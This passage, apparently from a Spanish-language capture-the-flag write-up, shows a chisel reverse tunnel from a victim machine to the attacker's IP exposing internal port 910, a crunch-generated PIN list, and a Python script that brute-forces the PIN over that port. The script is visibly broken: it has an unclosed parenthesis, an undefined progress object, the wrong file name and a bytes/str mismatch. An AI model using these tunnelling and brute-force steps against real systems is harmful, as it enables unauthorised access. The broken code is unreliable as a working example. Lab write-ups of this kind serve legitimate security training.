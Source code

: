     ./chisel server --reverse --port 1234
    ```

1. Lanzamos el cliente desde la maquina victima

    ```bash
    chisel.exe client 10.10.17.51:1234 R:910:127.0.0.1:910
    ```

Ahora ya tenemos accesso al puerto 910 de la maquina victima desde nuestra maquina. 

Ya podemos crear un script en python para que ataque este puerto. Pero primero creamos un diccionario de pins con crunch

```bash
crunch 4 4 -t %%%% > pins.txt
```

Creamos el 
```bash
 exploit.py 
```


```python
#!/usr/bin/python3

import pdb
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler

def tryPins():
    f = open("pins", "r")

    p1.log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)

    for pin in f.readlines():
        p1.status(b"Probando con PIN " + pin.strip('\n').encode())

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("127.0.0.1", 910))

        data = s.recv(4096)

        s.send(pin.encode())

        data = s.recv(1024)

        if "Access denied" not in data:
            p1.success(b"El PIN es " + pin.strip('\n').encode())
            sys.exit(0)

if __name__ == '__main__':
    tryPins()
```
